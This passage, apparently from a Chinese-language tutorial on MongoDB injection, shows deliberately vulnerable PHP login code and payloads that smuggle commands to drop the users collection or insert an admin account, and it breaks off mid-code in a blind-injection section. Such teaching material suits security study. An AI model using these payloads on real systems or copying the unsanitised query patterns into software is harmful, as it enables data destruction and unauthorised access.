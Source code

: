 这样，原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为 `()` 内的条件总是永真的。

### 使用 Command 方法造成的注入

懒了，这里也是直接贴出来

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

playload:

```php
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

### 盲注

#### 布尔盲注

index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
```